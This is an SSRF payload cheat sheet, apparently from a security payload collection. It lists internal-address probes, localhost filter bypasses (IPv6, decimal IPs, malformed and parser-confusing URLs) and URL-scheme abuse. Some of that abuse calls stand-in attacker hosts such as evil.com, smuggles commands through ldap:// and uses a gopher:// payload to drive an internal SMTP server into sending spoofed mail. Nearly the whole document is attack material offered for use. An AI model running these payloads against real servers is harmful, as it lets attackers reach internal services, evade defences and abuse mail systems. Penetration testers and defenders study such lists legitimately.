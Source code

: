 # Server-Side Request Forgery
Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on behalf of him.

## Exploit

Basic SSRF v1
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22
```

Basic SSRF v2
```
http://localhost:80
http://localhost:443
http://localhost:22
```

Advanced exploit using a redirection
```
1. Create a subdomain pointing to 192.168.0.1 with DNS A record  e.g:ssrf.example.com
2. Launch the SSRF: vulnerable.com/index.php?url=http://YOUR_SERVER_IP
vulnerable.com will fetch YOUR_SERVER_IP which will redirect to 192.168.0.1
```

Advanced exploit using type=url
```
Change "type=file" to "type=url"
Paste URL in text field and hit enter
Using this vulnerability users can upload images from any image URL = trigger an SSRF
```

## Bypassing
Bypass localhost with [::]
```
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
```

Bypass localhost with a domain redirecting to locahost
```
http://n-pn.info
```

Bypass using a decimal ip location
```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
```

Bypass using malformed urls
```
localhost:+11211aaa
localhost:00011211aaaa
```

Bypass using rare address
```
http://0/
```

Bypass using tricks combination
```
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib2 : 1.1.1.1
requests + browsers : 2.2.2.2
urllib : 3.3.3.3
```

## SSRF via URL Scheme
Dict://   
The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:
```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

Sftp://
```
ssrf.php?url=sftp://evil.com:11111/
```

Tftp://
```
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

Ldap://
```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

Gopher://
```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

## Thanks to
* [Hackerone - How To: Server-Side Request Forgery (SSRF)](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
* [Awesome URL abuse for SSRF by @orange_8361 #BHUSA](https://twitter.com/albinowax/status/890725759861403648)
* [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! Orange Tsai](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
* [SSRF Tips - xl7dev](http://blog.safebuff.com/2016/07/03/SSRF-Tips/)
* [SSRF in https://imgur.com/vidgif/url](https://hackerone.com/reports/115748)
* [Les Server Side Request Forgery : Comment contourner un pare-feu - @Geluchat](https://www.dailysecurity.fr/server-side-request-forgery/)

